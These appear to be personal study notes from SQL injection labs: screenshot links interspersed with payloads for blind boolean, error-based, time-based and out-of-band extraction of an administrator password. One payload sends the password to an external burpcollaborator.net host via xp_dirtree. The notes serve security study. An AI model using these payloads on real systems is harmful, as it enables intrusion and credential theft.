 
![[Pasted image 20241202195825.png]]
![[Pasted image 20241202195857.png]]
![[Pasted image 20241202202518.png]]
![[Pasted image 20241202202534.png]]

![[Pasted image 20241202203311.png]]

![[Pasted image 20250617210641.png]] 
![[Pasted image 20250617210805.png]]
![[Pasted image 20250617212431.png]]
![[Pasted image 20250617212649.png]]![[Pasted image 20250618211742.png]]
![[Pasted image 20250618220237.png]]
![[Pasted image 20250618222034.png]]
![[Pasted image 20250625221610.png]]

![[Pasted image 20250626212922.png]]
![[Pasted image 20250626215102.png]]
![[Pasted image 20250626215111.png]]


![[Pasted image 20250627195545.png]]
![[Pasted image 20250627200051.png]]
![[Pasted image 20250627202453.png]]
![[Pasted image 20250627202641.png]]

' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's


![[Pasted image 20250627211344.png]]
![[Pasted image 20250627211444.png]]
`xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`



![[Pasted image 20250627220041.png]]
![[Pasted image 20250627220146.png]]


![[Pasted image 20250627221032.png]]
![[Pasted image 20250627221203.png]]

`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`


![[Pasted image 20250627221933.png]]
![[Pasted image 20250627223503.png]]
![[Pasted image 20250627223810.png]]
`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`



![[Pasted image 20250627224749.png]]

<"storeId>999 &#x53;ELECT * FROM information_schema.tables<"/storeId> 


![[Pasted image 20250703231222.png]]
![[Pasted image 20250703231307.png]]